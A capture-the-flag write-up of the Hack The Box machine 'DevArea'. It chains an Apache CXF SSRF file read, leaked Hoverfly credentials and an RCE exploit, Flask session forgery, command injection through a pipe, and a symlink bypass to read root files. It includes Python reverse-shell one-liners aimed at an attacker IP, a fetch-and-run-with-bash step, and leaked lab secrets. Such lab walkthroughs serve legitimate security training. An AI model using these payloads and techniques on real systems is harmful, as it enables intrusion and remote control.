Summary
Machine Overview
DevArea is a medium-difficulty Linux machine on Hack The Box that demonstrates a multi-stage attack chain involving anonymous FTP access, Java application analysis, an Apache CXF SSRF vulnerability, local file disclosure, Hoverfly exploitation, Flask session forgery, command injection, and a symbolic-link validation bypass leading to root-level file access.
Pentesting Process
Service Enumeration
We started our assessment by performing a comprehensive port scan using Nmap to identify open ports and services running on the target machine. The command we used was:
nmap -sC -sV 10.129.17.196
We identified 3 accessible services:
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x 2 ftp ftp 4096 Sep 22 2025 pub
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
49/tcp filtered tacacs
80/tcp open http Apache httpd 2.4.58
8080/tcp open http Jetty 9.4.27.v20200227
8500/tcp open fmtp?
8888/tcp open http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
For simplicity, we mapped the target IP address to the domain devarea.htb by adding an entry to the local /etc/hosts file.
Initial Access
FTP Anonymous Access
The FTP service allows anonymous authentication, providing access to the pub directory. We enumerated the available files and discovered employee-service.jar.
We downloaded the JAR file for further analysis, as it could contain information about the applications and services running on the target.
JAR File Inspection
We analyzed the JAR file using JD-GUI to decompile the application and inspect its classes and packages.
The JAR file contained several packages, including htb.devarea. This package contained the backend implementation of the Employee Service exposed on port 8080.
package htb.devarea;
import org.apache.cxf.jaxws.JaxWsServerFactoryBean;
public class ServerStarter {
public static void main(String[] args) {
JaxWsServerFactoryBean factory = new JaxWsServerFactoryBean();
factory.setServiceClass(EmployeeService.class);
factory.setServiceBean(new EmployeeServiceImpl());
factory.setAddress("http://0.0.0.0:8080/employeeservice");
factory.create();
System.out.println("Employee Service running at http://localhost:8080/employeeservice");
System.out.println("WSDL available at http://localhost:8080/employeeservice?wsdl");
}
}
This service was implemented using the Apache CXF framework and was exposed at http://localhost:8080/employeeservice.
Apache CXF Analysis
The Employee Service is implemented using the Apache CXF framework. At this stage, we did not yet know which version of CXF was deployed on the target.
We reviewed the Apache CXF security advisories [1] and investigated the known vulnerabilities affecting the framework. We then identified publicly available proof-of-concept exploits and tested the relevant vulnerabilities against the target service.
During this process, we identified CVE-2022-46364, a Server-Side Request Forgery (SSRF) vulnerability affecting Apache CXF. A publicly available proof of concept was available for this vulnerability [2], allowing us to test whether the target application was exploitable.
The service is vulnerable to CVE-2022-46364, which was used to read local files on the server including the /etc/passwd file.

Local File Extraction
The previous SSRF exploit allowed us to read local files on the server. We will use this capability to extract sensitive information that will help us in the pentesting process.
The target is running a Hoverfly server listening on port 8888. This server is protected by an authentication mechanism.

We used the SSRF vulnerability to extract the systemd file responsible for managing the Hoverfly service.
python CVE-2022-46364.py -t http://devarea.htb:8080/employeeservice -s file:///etc/systemd/system/hoverfly.service -d devarea.htb
[Unit]
Description=HoverFly service
After=network.target
[Service]
User=dev_ryan
Group=dev_ryan
WorkingDirectory=/opt/HoverFly
ExecStart=/opt/HoverFly/hoverfly -add -username admin -password O7IJ27MyyXiU -listen-on-host 0.0.0.0
Restart=on-failure
RestartSec=5
StartLimitIntervalSec=60
StartLimitBurst=5
LimitNOFILE=65536
StandardOutput=journal
StandardError=journal
[Install]
WantedBy=multi-user.target
Now we have the credentials for the Hoverfly service, and we can use them to access the service.
HoverFly Enumeration
The server is running an instance of HoverFly 1.11.3.

This version is vulnerable to Remote Code Execution, identified as CVE-2025-54123.
A public exploit is available on GitHub [3].

To get a reverse shell, we will use the following payload:
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTCKER_IP>",<ATTCKER_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
As a result, we got a reverse shell as the user dev_ryan:

Post-Exploitation
Syswatch Archive Analysis
We enumerated the files in the home directory of the user dev_ryan. We found the user flag file (user.txt) and an archive file named syswatch-v1.zip, which we downloaded for further analysis.
We extracted the archive and found a shell script named setup.sh that contains environment-sensitive information generation logic.
python3 -m venv "$OPT_DIR/venv"
"$OPT_DIR/venv/bin/pip" install --upgrade pip
"$OPT_DIR/venv/bin/pip" install -r "$OPT_DIR/syswatch_gui/requirements.txt"
ENV_FILE="/etc/syswatch.env"
SECRET="${SYSWATCH_SECRET_KEY:-}"
ADMIN="${SYSWATCH_ADMIN_PASSWORD:-}"
if [ -z "$SECRET" ]; then
if command -v openssl >/dev/null 2>&1; then
SECRET="$(openssl rand -hex 32)"
else
SECRET="$(head -c 32 /dev/urandom | xxd -p)"
fi
fi
[ -z "$ADMIN" ] && ADMIN="SyswatchAdmin2026"
cat > "$ENV_FILE" <<EOF
SYSWATCH_SECRET_KEY=$SECRET
SYSWATCH_ADMIN_PASSWORD=$ADMIN
SYSWATCH_LOG_DIR=$OPT_DIR/logs
SYSWATCH_DB_PATH=$OPT_DIR/syswatch_gui/syswatch.db
SYSWATCH_PLUGIN_DIR=$OPT_DIR/plugins
SYSWATCH_BACKUP_DIR=$OPT_DIR/backup
SYSWATCH_VERSION=1.0.0
EOF
<!-- Snippet -->
#if command -v ufw >/dev/null 2>&1; then ufw allow 7777/tcp || true; fi
A comment in the setup script indicates that port 7777 is used by the local web server. Later, we were able to verify that this port is open and used by the application.
The environment variables are stored in a file that we can read.
cat /etc/syswatch.env
SYSWATCH_SECRET_KEY=f3ac48a6006a13a37ab8da0ab0f2a3200d8b3640431efe440788beaefa236725
SYSWATCH_ADMIN_PASSWORD=SyswatchAdmin2026
SYSWATCH_LOG_DIR=/opt/syswatch/logs
SYSWATCH_DB_PATH=/opt/syswatch/syswatch_gui/syswatch.db
SYSWATCH_PLUGIN_DIR=/opt/syswatch/plugins
SYSWATCH_BACKUP_DIR=/opt/syswatch/backup
SYSWATCH_VERSION=1.0.0
Sudo Access
The user dev_ryan can execute a shell script with higher privileges.
sudo -l
Matching Defaults entries for dev_ryan on devarea:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User dev_ryan may run the following commands on devarea:
(root) NOPASSWD: /opt/syswatch/syswatch.sh, !/opt/syswatch/syswatch.sh web-stop,
!/opt/syswatch/syswatch.sh web-restart
The archive that we found earlier contains the SysWatch setup script. The script can be used to perform different tasks:
usage() {
echo "SysWatch $VERSION"
echo "Usage: $0
The script can be used to read logs from a specific directory.
CONFIG_FILE="/opt/syswatch/config/syswatch.conf"
SYSWATCH_USER="syswatch"
PLUGIN_DIR="/opt/syswatch/plugins"
LOG_DIR="/opt/syswatch/logs"
SAFE_PLUGIN_REGEX='^[a-zA-Z0-9_.\-$]+$'
SAFE_LOG_REGEX='^[A-Za-z0-9_.-]+$'
VERSION="1.0.0"
source "$CONFIG_FILE"
RUN_AS_ROOT_PLUGINS=("log_monitor.sh")
LIST_EXCLUDE=("common.sh")
<!-- Snippet -->
view_logs() {
local arg="${1:-}"
# ---- LIST MODE ----
if [ "$arg" = "--list" ] || [ "$arg" = "list" ]; then
local found=0
for p in "$LOG_DIR"/*.log; do
[ -e "$p" ] || continue
[ -L "$p" ] && continue # skip symlinks in list
[ -f "$p" ] || continue
echo " - $(basename "$p")"
found=1
done
[ "$found" -eq 0 ] && echo "[No logs found]"
return
fi
# FILE NAME VALIDATION
local file="${arg:-system.log}"
if [[ ! "$file" =~ $SAFE_LOG_REGEX ]]; then
echo "[Invalid log filename]: $file"
return 1
fi
local path="$LOG_DIR/$file"
if [ -L "$path" ]; then
local target
target=$(ls -l "$path" | awk '{print $NF}')
if [[ "$target" == *"/"* || "$target" == *".."* || "$target" == *"\\"* ]]; then
echo "[Blocked unsafe symlink target]: $file -> $target"
return 1
fi
if [[ "$target" =~ ^[A-Za-z0-9_.-]+$ ]]; then
local resolved="$LOG_DIR/$target"
if [ -f "$resolved" ]; then
cat "$resolved"
return
else
echo "[Symlink target not found]: $file -> $target"
return 1
fi
fi
if [[ "$target" == /var/log/* ]]; then
[ -f "$target" ] && cat "$target" && return
echo "[Symlink target not regular file]: $file -> $target"
return 1
fi
echo "[Refusing unsafe symlink]: $file -> $target"
return 1
fi
if [[ "$file" == */* || "$file" == *".."* ]]; then
echo "[Blocked unsafe filename]: $file"
return 1
fi
if [ -f "$path" ]; then
cat "$path"
else
echo "[Log file not found]: $file"
fi
}
The log directory is owned by the syswatch user, and only that user can write to the log files.
ls -la /opt/syswatch
total 44
drwxr-xr-x+ 8 root root 4096 Mar 22 18:55 .
drwxr-xr-x 5 root root 4096 Mar 22 18:55 ..
drwxr-xr-x 2 syswatch syswatch 4096 Mar 22 18:55 backup
drwxr-xr-x 2 root root 4096 Mar 22 18:55 config
drwxr-xr-x 2 syswatch syswatch 4096 Mar 22 18:55 logs
-rwxr-xr-x 1 root root 265 Dec 12 2025 monitor.sh
drwxr-xr-x 2 root root 4096 Mar 22 18:55 plugins
drwxr-xr-x 4 root root 4096 Mar 22 18:55 syswatch_gui
-rwxr-xr-x 1 root root 6103 Dec 14 2025 syswatch.sh
drwxr-xr-x 5 root root 4096 Mar 22 18:55 venv
Local Web Server
Syswatch application is running locally on port 7777.
netstat -tlnp
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 127.0.0.1:7777 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:25 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.54:53 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN -
tcp6 0 0 :::8080 :::* LISTEN 1427/java
tcp6 0 0 ::1:25 :::* LISTEN -
tcp6 0 0 :::8888 :::* LISTEN 1428/hoverfly
tcp6 0 0 :::8500 :::* LISTEN 1428/hoverfly
tcp6 0 0 :::22 :::* LISTEN -
tcp6 0 0 :::21 :::* LISTEN - LISTEN 1234/syswatch
To access the application remotely, we generated SSH keys for the user dev_ryan and used them to establish a port-forwarding tunnel to the application.
mkdir -p ~/.ssh/mykeys && ssh-keygen -t ed25519 -f ~/.ssh/mykeys/id_ed25519 -N "" && cat ~/.ssh/mykeys/id_ed25519.pub >> ~/.ssh/authorized_keys && chmod 600 ~/.ssh/authorized_keys && cat ~/.ssh/mykeys/id_ed25519

We established a port forwarding tunnel to the application using the generated SSH keys.
ssh -i dev_ryan_ssh_key dev_ryan@devarea.htb -L 7777:127.0.0.1:7777
We can now access the application remotely:

The AdminPassword was used as the password, but it did not work, and we were unable to read the database due to a lack of permissions.
The application is using Flask (Imported in the main script syswatch-v1/syswatch/syswatch_gui/app.py). We know the secret key, which can be used to create valid cookies to access the application. To do this, we used the tool flask-unsign.
We tried to create a cookie with the following command:
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'f3ac48a6006a13a37ab8da0ab0f2a3200d8b3640431efe440788beaefa236725'
eyJsb2dnZWRfaW4iOnRydWV9.alrZpA.Cjaf7YX3fhpCoe7nTdbO1Ugawfw
We used this cookie in our browser, but it did not work. We then changed the format of the cookie to include the user ID and username:
flask-unsign --sign --cookie '{"user_id": 1, "username": "admin"}' --secret 'f3ac48a6006a13a37ab8da0ab0f2a3200d8b3640431efe440788beaefa236725'
eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.alrgAg.eoL6QLprheBinmUDZKRVmpT81Ng
We used the generated cookie, and it worked:

The application has a form that allows users to check the status of services:

The application takes the service name from user input, filters it, and checks its status by executing a system command:
SAFE_SERVICE = re.compile(r"^[^;/\&.<>\rA-Z]*$")
def service_status():
r = require_login()
if r:
return r
output = None
error = None
service = ""
if request.method == "POST":
service = request.form.get("service", "").strip()
if not service or not SAFE_SERVICE.match(service):
error = "Invalid service name"
else:
try:
res = subprocess.run([f"systemctl status --no-pager {service}"], shell=True,capture_output=True, text=True, timeout=10)
output = res.stdout if res.stdout else res.stderr
except Exception as e:
error = str(e)
return render_template("service_status.html", output=output, error=error, service=service)
The filters prevent the use of some characters that could be used for command injection. However, they do not prevent the use of the pipe character "|". We will use this to access a locally hosted application listening on port 4444.

Here, we used the decimal representation of our IP address because the character "." is not allowed. We received the following curl request:

On our machine, we created a file named index.html that contains the following script:
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<ATTACKER_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
We hosted this file on an HTTP server listening on port 4444. We then used the same form we used earlier to make the server access the file with curl and execute the script through bash.

As a result, we got a reverse shell as syswatch:

Log file manipulation
Now we have access as syswatch, so we can modify the log files used by the SysWatch tool:
We created a symbolic link in the log directory that points to the root flag:
ln -s /root/root.txt root.log
We then use the syswatch tool to view the log:
sudo /opt/syswatch/syswatch.sh logs root.log
We got the following error:
[Blocked unsafe symlink target]: root.log -> /root/root.txt
We then created two symbolic links: one pointing to the root flag and another one pointing to the symbolic link that we just created:
ln -s /root/root.txt root.log
ln -s root.log root1.log
We then used the SysWatch tool to view the log:

The same technique can be used to read root owned files, including the root user's SSH keys.
Mitigation
Remediation
The following remediation steps can help prevent exploitation of the identified vulnerabilities:
- Upgrade Apache CXF to version 3.5.5 or later.
- Upgrade Hoverfly to version 1.12.0 or later.
- Implement proper input validation and sanitization.
References
References
Proof of Completion
Proof of Completion
